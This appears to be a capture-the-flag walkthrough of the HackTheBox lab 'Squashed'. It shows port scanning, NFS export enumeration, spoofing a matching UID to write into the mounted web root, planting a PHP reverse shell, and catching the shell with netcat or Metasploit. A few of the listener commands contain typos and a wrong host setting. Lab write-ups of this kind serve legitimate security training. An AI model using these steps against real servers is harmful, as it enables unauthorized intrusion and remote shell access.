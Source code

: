 ```yaml
---
title: "HTB Walkthrough: Squashed"
date: 2023-02-15T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/squashed/squashed.png
tags:
  - Easy
  - Linux Host

---
```


![Squashed Logo](/assets/images/HTB/squashed/squashed.png)  

---

## Initial Scanning  


Let's run our port scanner to identify active TCP services.  

### TCP Port Scan  

Start a long scan:  

```bash
$ sudo nmap -sS -T5 -A -sV -p- 10.10.11.191 | tee nmap_full.log

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)

80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better

111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      39557/udp6  mountd
|   100005  1,2,3      40659/tcp   mountd
|   100005  1,2,3      40953/tcp6  mountd
|   100005  1,2,3      54634/udp   mountd
|   100021  1,3,4      34702/udp   nlockmgr
|   100021  1,3,4      37543/tcp   nlockmgr
|   100021  1,3,4      41357/tcp6  nlockmgr
|   100021  1,3,4      57894/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl

2049/tcp  open  nfs_acl  3 (RPC #100227)
33303/tcp open  mountd   1-3 (RPC #100005)
37543/tcp open  nlockmgr 1-4 (RPC #100021)
40659/tcp open  mountd   1-3 (RPC #100005)
45269/tcp open  mountd   1-3 (RPC #100005)

```  

Run a short scan to get started:  

```bash
$ sudo nmap -sS -T5 10.10.11.191
                    
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 23:32 EST
Nmap scan report for 10.10.11.191
Host is up (0.085s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
2049/tcp open  nfs
```  

### Directory Busting  

Not a lot to show here.  

```bash
$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.191/FUZZ | tee ffuf.log

#                       [Status: 200, Size: 32532, Words: 13031, Lines: 581, Duration: 3304ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 77ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 4305ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 80ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 78ms]
```  

### Nikto  

Results came back pretty empty.  

```bash
$ nikto -h 10.10.11.191:80 | tee nikto.log

+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 7f14, size: 5f4ddd6232040, mtime: gzip
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS 
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ 7890 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-02-16 23:47:20 (GMT-5) (716 seconds)
```  

## Web Enumeration  

Webpage seemed pretty simple, generic and didn't contain unique content.  

![Browser View](/assets/images/HTB/squashed/browser.png)  


## NFS Enumeration  

Here is a good reference for NFS enumeration/hacking:  

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)


Let's see which filesystems can be mounted:  

```bash
$ showmount -e 10.10.11.191

Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```  

Okay, now we want to create two new folders to mount these remote directories.  

```bash
$ sudo mkdir /mnt/ross

$ sudo mkdir /mnt/html
```  

Time to mount them both, don't forget sudo!  

```bash
$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt/ross -o nolock

$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/html -o nolock
```  

Now we can take a look at these files and permissions.  

```bash
$ ls -la

total 52
drwxr-xr-x  4 root root      4096 Feb 16 23:50 .
drwxr-xr-x 19 root root     36864 Jan 16 01:05 ..
drwxr-xr--  5 2017 www-data  4096 Feb 16 23:50 html
drwxr-xr-x 14 1001     1001  4096 Feb 16 23:31 ross
```  

When downloading these files, they carry over permission requirements by either username or UID. We can bypass this issue by creating and/or changing users to fit the bill.  

Although this user has nologin set by default, we can spawn a shell for www-data:  

```bash
$ sudo -u www-data sh

$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```  

Now we can change directory to the mounted \/var/www/html folder.  

```bash
$ cd html

$ ls -la

total 56
drwxr-xr-- 5 2017 www-data  4096 Feb 16 23:50 .
drwxr-xr-x 4 root root      4096 Feb 16 23:50 ..
drwxr-xr-x 2 2017 www-data  4096 Feb 16 23:50 css
-rw-r--r-- 1 2017 www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 2017 www-data  4096 Feb 16 23:50 images
-rw-r----- 1 2017 www-data 32532 Feb 16 23:50 index.html
drwxr-xr-x 2 2017 www-data  4096 Feb 16 23:50 js
```  

With this user, we are able to read the files in this directory, but there isn't anything very juicy here. What we really need is is write-access.  

Notice that the owner of these files is *anyone* with a user ID (UID) of 2017. We can take advantage of this feature by creating a new user and assigning the user a UID of 2017.  

```bash
# Create a new user
$ sudo adduser --uid 2017 newuser

# Follow instructions to create a password for the user, leave everything else blank. I made mine newuser:newuser.
# Login as this user
$ su newuser
Password: newuser
```  

Now we can write to this folder, which is hosting the web content we enumerated earlier. Meaning, we can copy and paste a reverse shell payload file here.  

## Initial Access  


We detected PHP running on the webserver earlier with Wappalyzer, so let's use our go-to seclist PHP shell which is located by default in \/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php  

```bash
# Edit lines 49 and 50 of the PHP shellcode to represent your IP on the OpenVPN server
# and the port you wish to receive a reverse shell over (8888 by default).
# Now open up your favorite listener. For example, here are a couple options with examples if your ip/port is 10.10.10.10:8888
```  

```bash
$ nc -nvlp 8888
```  

```bash
$ mfsconsole

use mutli/handler
options
set lhosts 10.10.11.191
set lport 8888
run
```  

Now that we've setup our listener using one of the above commands, we need to copy our edited PHP shell payload file into \/mnt/html  

```bash
$ cp /tmp/php-reverse-shell.php /mnt/html
```  

We can execute this php webshell by navigating to it in our browser (10.10.11.191/php-reverse-shell.php), and then checking back on our listener, we should have a reverse shell.  

```
[*] Command shell session 1 opened (10.10.14.2:8888 -> 10.10.11.191:40768) at 2023-02-19 05:19:35 -0500


Shell Banner:
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
-----
          
$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```  














